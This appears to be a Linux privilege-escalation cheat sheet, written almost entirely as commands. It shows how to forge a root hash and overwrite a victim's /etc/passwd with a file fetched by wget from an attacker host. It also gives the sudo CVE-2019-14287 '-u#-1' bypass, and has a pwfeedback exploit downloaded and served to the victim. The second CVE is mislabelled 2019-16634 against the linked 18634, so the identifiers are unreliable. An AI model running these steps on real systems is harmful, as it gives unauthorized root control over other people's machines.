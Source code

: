 ```
Copy /etc/passwd content and put in a local file called passwd
Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
Copy output of the above command 
edit passwd
Replace x in root's line with the copied output
Save the file
python -m SimpleHTTPServer 9000 // You can use any port
```

Victim

```
sudo wget http://<attacker_ip>:9000/passwd -O /etc/passwd
su root // Enter the new root password you generated (Example: NewRootPassword)
id && whoami
```


# Sudo CVE
Expliot sudo with known CVE

CVE:

- CVE-2019-14287
- CVE-2019-16634

CVE-2019-14287

sudo -V // Get sudo version
sudo -l

Vulnerable output 
Output = (ALL,!root) NOPASSWD: /bin/bash 

```   
    sudo -u#-1 /bin/bash
    id && whoami
    
```

CVE-2019-16634

sudo -V // Get sudo version

sudo su root // If you type root's password , can you see the *****? // That means pw_feedback is enabled

Expliot PoC: https://github.com/saleemrashid/sudo-cve-2019-18634

Download expliot.c
Upload to Victim 

Attacker
```
python -m SimpleHTTPServer 9000 // You can use any port

```

